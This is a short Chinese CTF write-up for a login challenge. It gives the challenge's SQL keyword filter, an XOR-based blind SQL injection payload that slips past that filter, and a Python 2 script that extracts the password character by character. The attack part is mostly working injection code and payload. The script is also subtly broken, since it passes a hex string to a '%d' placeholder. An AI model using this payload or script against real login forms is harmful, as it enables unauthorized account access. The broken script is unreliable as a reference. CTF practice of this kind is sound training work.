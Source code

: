 ﻿# login


## writeup

这道题的过滤规则为：
```regx
mid|substr|\s|and|select|from|where|union|join|sleep|benchmark|rollup|limit|like|rlike|regxp
```
没有过滤运算符+ - ^ > <等以及一些字符串处理函数，而且正确与错误的用户名的回显不同，可以利用这一点实现盲注。
使用的payload为：
```
admin'^(left(pwd,%d)=%d)^'
```

盲注脚本：
```python
#coding=utf-8
import urllib2
import urllib

t=""
for i in range(1,500):
    for j in range(28,128):
        params={"uname":"admin'^(left(pwd,%d)=%d)^'"%(i,"0x"+(t+chr(j)).encode('hex')),"pwd":"xxxxx"}
        url="地址?"+urllib.urlencode(params)
        print url
        ans=urllib2.urlopen(url).read()
        #print ans
        #print chr(j)
        if "no such user!" in ans:
            t+=chr(j)
            print t
            break
    print "a loop"

```
用获取的密码登录即可获取flag。
